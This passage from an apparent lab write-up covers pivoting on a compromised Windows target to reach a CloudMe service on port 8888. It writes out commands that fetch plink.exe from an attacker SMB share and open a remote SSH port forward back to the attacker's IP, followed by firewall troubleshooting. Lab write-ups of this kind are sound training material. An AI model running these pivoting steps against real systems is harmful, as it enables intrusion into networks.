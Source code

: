 The first address is the expected ROP so the exploit should work! However, to use this exploit, some port fowarding is needed to get access to the service running on `127.0.0.1:8888` on the target:

```bash
# on kali, find Win32 SSH binary & copy it over 
find / -iname plink.exe 2>/dev/null
cp /usr/share/windows-resources/binaries/plink.exe .
# on kali, host binary
sudo impacket-smbserver -smb2support BUBBA .
# on target, download binary using SMB
robocopy \\10.10.14.17\BUBBA\ . plink.exe /copy:DT /w:1 /r:1 /v
# on target, use remote port fowarding to get access to CloudMe on port 8888
# NOTE: set <password> to your machine's password
.\plink.exe -ssh -l user -pw "<password>" -v -N -R 8888:127.0.0.1:8888 10.10.14.17
```

However, this does not work with the following error:

![plink1](./buff/plink1.png)

Maybe there is a firewall rule blocking outbound TCP on port 22? It cannot be a network connectivity issue since there is a working reverse shell on that target... Trying the connection again but with a `tcpdump` running does not show any packet activity coming to Kali:

```bash
sudo tcpdump -i tun0 port 22
```

Looking at the Windows Firewall does not show any explicit rules blocking this connection using `netsh`:

```bash
# looking for SSH or port 22
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all 
```

Also, trying PowerShell does not show anything helpful either:


```powershell
# looking for SSH or port 22
Get-NetFirewallRule | 
where { $_.Enabled -eq $True } | 
Format-Table -Property Name,
                       DisplayName,
                       DisplayGroup,
                       @{Name='Protocol';Expression={($PSItem | Get-NetFirewallPortFilter).Protocol}},
                       @{Name='LocalPort';Expression={($PSItem | Get-NetFirewallPortFilter).LocalPort}},
                       @{Name='RemotePort';Expression={($PSItem | Get-NetFirewallPortFilter).RemotePort}},
                       @{Name='RemoteAddress';Expression={($PSItem | Get-NetFirewallAddressFilter).RemoteAddress}},
                       Enabled,
                       Profile,
                       Direction,
                       Action
```
